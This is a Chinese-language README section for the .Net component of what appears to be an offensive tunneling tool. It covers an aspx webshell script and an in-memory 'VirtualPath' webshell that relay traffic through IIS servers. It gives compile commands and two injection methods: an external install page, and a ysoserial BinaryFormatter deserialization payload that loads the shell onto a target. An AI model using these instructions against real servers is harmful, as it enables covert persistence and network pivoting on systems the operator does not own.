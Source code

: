 # .Net

运行环境: .Net Framework >= 2.0; .NetCore; .Net

| 文件                   | 全双工 | 半双工 | 负载转发 | 备注                   |
|:---------------------|:---:|:---:|:----:|:---------------------|
| `suo5.aspx`          |  x  |  ✓  |  ✓   | 常规 aspx 脚本           |
| `Suo5VirtualPath.cs` |  x  |  ✓  |  ✓   | .Net VirtualPath 内存马 |

1. `.Net` 全双工的实现主要卡在了流式的请求传输上，我发现在 `.Net` 中必须等到请求的 `Body` 结束才能在 aspx 脚本内拿到
   `Request` 对象，这就导致了无法在请求过程中进行响应，因此只能使用半双工的方式来实现。
   如通过你有思路突破这个限制，欢迎与我讨论
2. 脚本中有一个对服务线程池调整的逻辑，至少会调整为 256，如果并发数超过这个数量，请求会变得很慢，这和 IIS 的请求模型有关。
   如果你需要更大的并发，需要把这个值改大一些。

## 使用 .Net 内存马

> 感谢 [@dust-life](https://github.com/dust-life) 贡献

参考: https://github.com/A-D-Team/SharpMemshell/blob/main/VirtualPath/memshell.cs

### 编译

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library Suo5VirtualPath.cs
```

or

```
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe /t:library Suo5VirtualPath.cs
```

### 使用

```
https://github.com/A-D-Team/SharpMemshell/blob/main/VirtualPath/install.aspx
```

or

```
ysoserial.exe -f BinaryFormatter -g ActivitySurrogateSelectorFromFile -c "Suo5VirtualPath.cs;System.Web.dll;System.dll"
```

